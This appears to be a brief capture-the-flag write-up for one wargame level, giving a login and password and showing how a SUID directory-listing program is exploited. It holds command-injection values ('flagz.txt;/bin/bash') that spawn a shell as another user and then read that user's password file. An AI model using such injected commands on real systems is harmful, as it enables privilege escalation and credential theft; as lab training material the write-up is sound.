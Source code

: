 # username
althea
# password
ObxEmwisYjERrDfvSbdA
# objective
The user andromeda has left us a program to list directories.
# method of solve
The SUID binary is vulnerable to OS command injection.
```
./lsme
flagz.txt;whoami
./lsme
flagz.txt;/bin/bash
cat andromeda_pass.txt
```
